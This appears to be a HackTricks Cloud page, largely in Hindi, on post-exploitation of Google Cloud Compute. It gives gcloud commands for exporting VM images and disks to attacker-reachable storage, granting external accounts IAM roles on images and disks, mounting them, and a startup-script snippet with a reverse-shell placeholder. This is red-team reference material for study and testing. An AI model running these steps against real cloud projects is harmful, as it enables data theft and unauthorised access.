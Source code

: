 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को **पहले से मौजूद इमेज में निहित डेटा तक पहुंचने** या **चल रहे VMs की नई इमेज बनाने** और उनके डेटा तक पहुंचने की अनुमति देगा बिना चल रहे VM तक पहुंच के।

एक VM इमेज को एक बकेट में निर्यात करना और फिर इसे डाउनलोड करना और स्थानीय रूप से माउंट करना संभव है, कमांड के साथ: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकार की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकार** की आवश्यकता है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्थानीय रूप से स्नैपशॉट और डिस्क का निर्यात और निरीक्षण करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में** बदलना संभव है और **पिछले अनुभाग** का पालन करते हुए, उस इमेज को निर्यात करना ताकि इसे स्थानीय रूप से निरीक्षण किया जा सके।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

**एक इमेज में संग्रहीत डेटा** या **चल रहे VM** के अंदर से, जहाँ एक हमलावर **ने एक इमेज बनाई है,** उस इमेज पर एक बाहरी खाते को पहुँच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपनी बाहरी खाता छवि के माध्यम से पहुंच नहीं दे सके, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बना सकते हैं** छवि तक पहुंच प्राप्त करने के लिए पैरामीटर जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **एक बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच दें या इससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**डिस्क को** एक उदाहरण से जोड़ें:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Disk की पहचान करें**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Disk को फॉर्मेट और माउंट करें** (अगर यह एक नया या कच्चा डिस्क है):
*   एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Disk को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
